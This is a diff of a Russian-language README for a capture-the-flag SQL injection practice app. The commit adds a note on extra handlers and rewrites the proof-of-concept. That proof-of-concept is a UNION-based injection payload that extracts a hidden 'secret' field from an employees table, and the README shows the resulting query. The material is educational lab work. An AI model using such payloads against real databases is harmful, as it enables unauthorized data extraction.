

Before and after one commit to MinaevMax/Practice_SQLI, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -28,12 +28,14 @@ docker-compose up --build
 Есть хэндлер, который возвращает из бд только поля id штрафа и имя на кого он выписан.
 Для того, чтобы получить флаг, нужно передать вместо имени запрос, который фильтрует и возвращает поле secret у нужной записи.
 
+Также для улучшения взаимодействия пользователя и базы данных имеются хэндлеры позволяющие добавлять штраф в базу, а также узнавать количество записей в таблицах.
+
 ## POC-эксплоит для получения флага
 Для получения флага, необходимо получить запись из таблицы, недоступной для получения из хэндлера.
 Сделать это можно воспользовавшись SQL командой `UNION`, которую нужно использовать в передаваемом тексте.
-Например, подойдет следующий запрос:
+Например, подойдет следующий запрос в форму для поиска штрафов по имени:
 ```
-http://localhost:8080/bills/check?name=' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='
+' UNION SELECT 0, secret, 0 FROM billdb.employees WHERE id = (SELECT employee_id FROM billdb.bills GROUP BY employee_id ORDER BY SUM(value) DESC LIMIT 1) AND ''='
 ```
 Для него, запрос к БД будет выглядеть следующим образом:
 ```
@@ -43,4 +45,4 @@ SELECT id, name, value FROM billdb.bills WHERE name='' UNION SELECT 0, secret, 0
 Хэндлер возвращает 3 параметра: id штрафа, name человека, value штрафа, обернутые в текстовую оболочку.
 При получении флага `id` и `value` будут 0, а поле `name` будет отображать флаг(Это следует из запроса в примере).
 
-Выполнение запросов лучше и удобнее всего проводить через программу Postman.
+Выполнение запросов лучше и удобнее всего проводить через любой удобный для Вас браузер.
````
